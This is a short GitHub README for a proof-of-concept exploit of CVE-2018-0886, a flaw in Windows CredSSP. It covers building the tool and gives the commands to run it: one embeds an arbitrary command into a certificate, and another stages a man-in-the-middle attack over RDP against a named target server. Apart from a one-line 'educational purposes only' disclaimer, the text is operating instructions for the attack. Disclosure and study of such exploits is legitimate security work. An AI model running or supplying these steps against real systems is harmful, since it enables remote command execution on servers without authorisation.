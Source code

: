 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -c exploitc.pem -k exploitk.pem CMD 
```

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```
